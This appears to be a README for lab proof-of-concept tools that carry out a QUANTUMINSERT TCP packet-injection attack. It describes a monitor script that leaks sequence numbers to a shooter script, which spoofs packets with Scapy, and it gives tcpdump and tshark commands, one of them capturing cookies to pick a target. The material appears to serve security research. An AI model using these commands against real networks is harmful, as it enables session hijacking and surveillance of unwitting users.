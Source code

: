 QI Tools
=========

Proof of concept tools to perform a `QUANTUMINSERT`. Our Lab setup consisted of the following VMs:

 * qi-shooter (VM that will run shooter.py)
 * qi-router (VM that will run monitor.py)
 * qi-target (VM that will be attacked)
 
Pcaps created with the help of these tools can be found here:

 * [https://github.com/fox-it/quantuminsert/tree/master/pcaps](https://github.com/fox-it/quantuminsert/tree/master/pcaps)

monitor.py
----------

This script is intended to leak the TCP sequence and ACK numbers to the `shooter.py`. It has a dependency on `tcpdump` or `tshark` as it receives the sequence and ack numbers from the output of these programs.
It's possible to implement packet capture in `monitor.py` itself, making it probably even faster to leak the required information.

The information is sent to the shooter using a single UDP packet. However, one could use other ways to do this.

#### Example usage for tcpdump

	stdbuf --output=0 |	tcpdump -nn -i eth0 "host jsonip.com and tcp[tcpflags]=(tcp-syn|tcp-ack)" | python monitor.py -s 10.0.0.2
	
`stdbuf` is needed as `tcpdump` will buffer it's output by default. The bpf filter ensures that we only see the SYN+ACK of `jsonip.com`, which will be printed to stdout and parsed by `monitor.py`. The shooter is then notified on `10.0.0.2`.

#### Example usage for tshark

By using `tshark` one could specifically target a client, for example by identifying a client by it's unique Cookie headers.

Example command:

	stdbuf --output=0 tshark -ni eth0 -Tfields \
		-e tcp.seq -e tcp.ack \
		-e ip.src -e tcp.srcport -e ip.dst -e tcp.dstport \
		-e tcp.analysis.bytes_in_flight -e http.host -e 'http.cookie' \
		-o tcp.relative_sequence_numbers:0 -R http.request \
		'host jsonip.com and port 80' | python monitor.py -s 10.0.0.2 --tshark
		
This command will output the required fields when someone makes a HTTP request to `jsonip.com`. The outputted cookie and host fields could be used as selectors in the monitor script.

The `-o tcp.relative_sequence_numbers:0` option is needed to output non relative sequence numbers.

shooter.py
----------
This script is responsible for receiving the sequence+ack data from `monitor.py` using UDP. It has a dependency on `Scapy` for crafting and sending the spoofed packet.

Example usage:

	python shooter.py -l 10.0.0.2 -p 12345
	
This will make the shooter script listen on `10.0.0.2` and on port `12345`.

